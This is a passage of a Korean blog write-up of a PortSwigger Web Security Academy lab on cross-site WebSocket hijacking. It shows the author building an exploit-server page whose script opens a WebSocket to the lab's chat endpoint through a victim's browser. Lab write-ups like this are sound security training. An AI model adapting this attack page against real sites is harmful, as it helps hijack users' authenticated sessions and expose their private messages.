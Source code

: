 그런데 저장(Store)하니 다음과 같은 에러화면으로 변했다. 원인이 뭘까?

![Invalid HTTP response 코드 에러](/images/burp-academy-websocket-3-2.png)

아아, 응답을 만드는 부분이기 때문에 응답 헤더처럼 만들어야 했다. HTTP/1.1 200 과 같은 식으로 시작해야 했다.    
그런데 응답을 돌려줘서 어떻게 victim이 핸드셰이크 요청을 보내도록 만들 수 있을까?     
body 부분에 웹소켓 요청을 하는 자바스크립트를 작성하면 될 것 같다. 

```js
const exampleSocket = new WebSocket("wss://www.0aee00af039791158082d02c00c100cf.web-security-academy.net/chat");
```

전체적인 HTML 페이지는 다음과 같이 만들어봤다. https://qiita.com/Zumwalt/items/060ae7654c9dfe538ee7 의 코드를 참고했다. 

```html 
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
  </head>
  <body>
    <p>WebSocket</p>
    event type: <input id="eventType"> <br/>
    message: <input id="dispMsg">
  </body>
</html>

<script type="text/javascript">
    
    //WebSocket connect
    var connection = new WebSocket("wss://www.0aee00af039791158082d02c00c100cf.web-security-academy.net/chat");

    // connection open
    connection.onopen = function(event) {
        document.getElementById( "eventType" ).value = "connection open!";
        document.getElementById( "dispMsg" ).value = event.data;
    };

    // error
    connection.onerror = function(error) {
        document.getElementById( "eventType" ).value = "error!";
        document.getElementById( "dispMsg" ).value = error.data;
    };

    // message 
    connection.onmessage = function(event) {
        document.getElementById( "eventType" ).value = "message!";
        document.getElementById( "dispMsg" ).value = event.data;
    };

    // onclose
    connection.onclose = function() {
        document.getElementById( "eventType" ).value = "onclose!";
        document.getElementById( "dispMsg" ).value = "";
    };
</script>
```
